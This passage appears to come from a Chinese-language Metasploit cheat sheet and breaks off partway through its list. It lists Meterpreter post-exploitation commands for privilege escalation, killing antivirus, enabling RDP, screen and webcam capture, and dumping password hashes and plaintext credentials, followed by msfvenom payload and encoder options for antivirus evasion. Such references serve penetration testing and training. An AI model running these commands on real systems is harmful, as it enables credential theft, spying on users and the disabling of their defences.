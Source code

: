 4. 查看目标机是否为虚拟机:run post/windows/gather/checkvm

5. 查看完整网络设置:route

6. 查看当前权限:getuid

7. 自动提权:getsystem

8. 关闭杀毒软件: run post/windows/manage/killav

9. 启动远程桌面协议:run post/windows/manage/enable_rdp

10. 列举当前登陆的用户:run /post/windows/gather/enum_logged_on_users

11. 查看当前应用程序:run /post/windows/gather/enum_applications

12. 抓取当前目标机的屏幕截图:load espia ; screengrab

13. 抓取摄像头的图片:webcam snap

14. 查看目标机当前所在目录:pwd

15. 查看当前本机目录:getlwd

16. 导出当前用户密码哈希:run hashdump

    * 或使用以下两台命令
      * 将文件导出(权限更高):run windows/gather/smart_hashdump
      * 抓取自动登陆的账号和密码:run windows/gather/credentials/windows_autologin

    * 用户名:SID:LM哈希:NTML哈希

17. 直接获取明文密码:(该功能需要获取系统权限,获取系统权限可使用getsystem)

    1. 首先在终端输入`load kiwi` 进行加载kiwi模块



## msfvenom 常用参数

```shell
-l
	列出指定模块的所有可用资源,模块类型包括:payloads,encoders,nops,all

-p
	指定需要使用的payload(攻击载荷)

-f 
	指定输出格式(计算机可执行格式)
	Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、		msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；
	Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、		ruby、sh、vbapplication、vbscript；

-e
	指定需要使用的encoder(编码器)编码免杀

-a 
	指定payload的目标架构
	选择架构平台:x86|64|x86_64
	Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe
	
-o
	保存payload文件输出

-b 
	设置规避字符集,比如:"\x00\xff"避免使用的字符

-n
	为payload预先指定一个NOP滑动长度
```